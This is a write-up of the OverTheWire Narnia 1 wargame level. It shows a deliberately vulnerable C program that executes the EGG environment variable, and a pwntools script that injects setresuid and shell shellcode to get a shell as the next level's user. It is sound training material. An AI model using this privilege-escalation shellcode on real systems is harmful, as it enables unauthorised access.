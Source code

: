 ```yaml
---
title: Narnia1

published: 2025-06-19

description: ShellCode

tags: [pwn, shellcode, c]

category: overthewire-narnia
---
```


# Narnia 1

## C File

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

## Approach

Looking at the code we see that first it gets the environment variable `EGG` and makes sure it exists. Then it tries running it

Now what we can do is set `EGG` to a shellcode, a list of assembly instructions that will open up a shell for us

When the binary jumps to our `EGG` it will the run the assembly instructions eventually opening up a shell

## Solution

```python
from pwn import *
context.arch = 'i386'
context.os = 'linux'
s = asm(shellcraft.setresuid() + shellcraft.sh())
p = process("/narnia/narnia1", env={"EGG":s})
p.interactive()
```

We can use the pwntools shellcraft module to make it easy to get a shell

First we need to set the UIDs so the binary doesn't drop priveleges and gives us a shell as narnia2

Then we add in the `sh` shellcode which opens up a shell

Finally we send this to the process as an env-variable and enter interactive mode and open up the password file

## Conclusion

When writing C programs don't call unsafe functions as they can be shellcode
